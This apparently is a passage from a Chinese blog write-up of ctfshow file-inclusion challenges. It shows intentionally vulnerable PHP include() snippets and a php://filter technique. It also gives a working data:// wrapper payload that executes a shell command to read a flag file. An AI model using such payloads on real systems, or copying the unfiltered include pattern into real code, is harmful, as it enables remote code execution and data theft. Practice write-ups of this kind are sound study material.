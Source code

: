 ```yaml
---
title: ctfshow文件包含刷题
date: 2022-01-25 16:08:59
tags:
      - 文件包含
      - ctfshow
      - web
categories: ctfshow
---
```


ctfshow文件包含做题记录

### web78

本题就是最基础的利用php:filter伪协议读取flag.php源码

### web79

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

本题会将php替换成???

尝试使用大写绕过

pHp://filter/read=convert.base64-encode/resource=flag.php

但是php伪协议的格式是固定的,不能改为大写字母

最后用data伪协议来执行命令,记得要将`+`手动urlencode

payload`file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKT8%2b`

### web80

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
